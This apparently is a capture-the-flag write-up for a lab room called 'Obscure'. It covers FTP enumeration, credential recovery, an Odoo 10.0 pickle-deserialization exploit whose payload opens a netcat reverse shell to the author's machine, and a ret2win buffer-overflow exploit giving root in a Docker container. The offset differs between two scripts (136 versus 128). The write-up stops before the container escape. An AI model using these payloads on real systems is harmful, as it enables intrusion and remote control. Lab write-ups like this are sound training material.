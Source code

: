 # Obscure

### Obscure
Nmap scan shows ports 21,22 and 80 open.<br />
The ftp server contains the two following files:<br />
![image](https://github.com/user-attachments/assets/e5dad07a-78b6-48b7-87af-27f4ae8e6faf)<br />
So now I know that a possible domain name might be `antisoft.thm`. Let's see this ELF file how it works. <br />
![image](https://github.com/user-attachments/assets/41de072b-792d-44a5-a00d-b4f63d72b7b0)<br />
The good new is that an ID is hardcoded in the program, if I run the `strings` command:<br />
![image](https://github.com/user-attachments/assets/59f1133a-487b-4db1-a884-de973692c329)<br />
This gets me a password:<br />
![image](https://github.com/user-attachments/assets/41b4c27b-b884-42fa-88d9-810103422cc6)<br />
With this password I'm able to download a backup of the database of the website. To do that go to `http://10.10.188.107/web/database/manager`, click on `backup` and prompt the found password. I unzip the downloaded file and it contains some interesting stuff, for example a manifest:<br />
![image](https://github.com/user-attachments/assets/7230a5db-0d5a-4fcc-815f-742ae8f0e07d)<br />
Also, after a while I remembered I had found the domain `antisoft.thm`, so I try to log in with the password I found earlier and username `admin@antisoft.thm` and it worked!. Now that I'm in, since from the manifest I saw that the version of Odoo running is 10.0, I did some reaserch and found this [authenticated remote execution](https://www.exploit-db.com/exploits/44064) vulnerability.<br />
So I follow the steps written in the POC. First search for and install `Database Anonymization`:<br />
![image](https://github.com/user-attachments/assets/9280033c-f333-4a7c-9e44-abd01f8d623b)<br />
Now go on `settings` and click `Anonymize Database`:<br />
![image](https://github.com/user-attachments/assets/cd54e119-cf91-4b92-8e27-c763077c8b37)<br />
Click on `Anonymize Database` button. Now refresh the page again:<br />
![image](https://github.com/user-attachments/assets/ded3667e-7f04-4367-aee9-d72baa9217bd)<br />
On this window we want to first upload a malicious `.pickle` file and then click on `Reverse database Anonymization`. The pickle file I'm going to upload is this:

    import pickle
    import base64
    
    class Exploit(object):
        def __reduce__(self):
            return (eval, ("__import__('os').system('nc 10.11.127.156 9001 -e /bin/sh') or ['ok']",))
    
    # Serialize the object with pickle
    payload = pickle.dumps(Exploit(), protocol=2)
    
    # Optional: base64 encode (if needed for HTTP transport)
    encoded = base64.b64encode(payload)
    
    # Save to file
    with open("payload.pickle", "wb") as f:
        f.write(payload)
    
    print("[+] Payload written to payload.pickle")
Execute this python script and it will write a payload on a file called `payload.pickle`. So I upload the file and get the reverse shell! This gets me the first flag located at `/var/lib/odoo`. Once on the system, it welcomes me with a set of database credentials!<br />
![image](https://github.com/user-attachments/assets/ba506af2-e09a-4266-82f7-04a3576372a3)<br />
The presence of a file `.dockerenv` in `/` suggets me that I'm in a docker container. I need to escape. First I need to become root on the container. So I try to connect to the DB with `psql -h db -U odoo -d postgres` using this credentials, but they are wrong. But since the script suggests that these credentials are stored in environment variables, I run `env` to see them:<br />
![image](https://github.com/user-attachments/assets/f645c1b5-8a37-4622-bc14-85df7c846e76)<br />
Infact the password is different.<br />
At this point I was stuck for a while so I decided to run linpeas, and it finds a SUID binary actually inside `/`, the root directory, which I didn't notice initially. I think I need to exploit this to become root.<br />
![image](https://github.com/user-attachments/assets/2497a4b4-24db-442d-a670-77a354622cf5)<br />
Given the description of this room I think I have to perform a buffer overflow attack. So I transfer the binary on my kali machine and execute checksec to see what defenses are enabled:<br />
![image](https://github.com/user-attachments/assets/bad01232-2c13-4386-85f4-c389915a196b)<br />
Just NX is enabled, meaning that I can't execute shellcode on the stack. Analyzing the binary with ghidra, I can see that there's a `win` function that executes the shell. I want to return to this function. So I use pwndbg to find the address of the win function (it stays always the same because the binary is not PIE, meaning that is not affected by ASLR).<br />
![image](https://github.com/user-attachments/assets/41ed1935-23fc-4750-a491-514010649b60)<br />
So the address of `win` is `0x0000000000400646`. Now I need to find the offset that overwrites the RIP. I use the following pwntools script:<br />
from pwn import *

    io = process('./ret')
    io.recvline()
    io.sendline(cyclic(500))
    io.wait()
    core = io.corefile
    stack = core.rsp
    info("rsp = %#x", stack)
    pattern = core.read(stack, 4)
    rip_offset = cyclic_find(pattern)
    info("rip offset is %d", rip_offset)
![image](https://github.com/user-attachments/assets/d198c59c-d951-4d1e-8c86-9173cefceeea)<br />
The following pwntools script exploits the binary in my local machine: <br />
   
    from pwn import *
    
    p = process("./ret")
    
    offset = 136
    rip = p64(0x0000000000400646)
    print(rip)
    ret_gadget = p64(0x00000000004006d2)
    
    payload = b"A"*offset
    payload += ret_gadget
    payload += rip
    
    p.recv()
    p.sendline(payload)
    p.interactive()
(notice that I also had to take the address of a ret instruction in order to solve stack alignment issues).<br />
Now I need to copy the payload in a way that I can exploit in in the target machine (since it doesnt have pwntools). And this is the final payload:

    { python2 -c 'print "A" * 128 + "\xd2\x06\x40\x00\x00\x00\x00\x00\x46\x06\x40\x00\x00\x00\x00\x00"'; cat; } | /ret
I am now root in the docker container, but the flag isn't in the `/root` directory. 

